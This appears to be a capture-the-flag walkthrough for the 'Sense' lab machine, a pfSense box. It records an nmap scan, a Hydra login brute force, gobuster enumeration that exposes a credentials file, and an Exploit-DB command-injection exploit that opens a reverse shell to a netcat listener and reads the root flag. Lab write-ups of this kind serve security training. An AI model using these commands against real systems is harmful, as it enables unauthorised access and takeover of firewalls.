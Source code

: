 `Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentals
![[sense_web0.png]]

On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`
![[sense_web1.png]]
###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user and root flag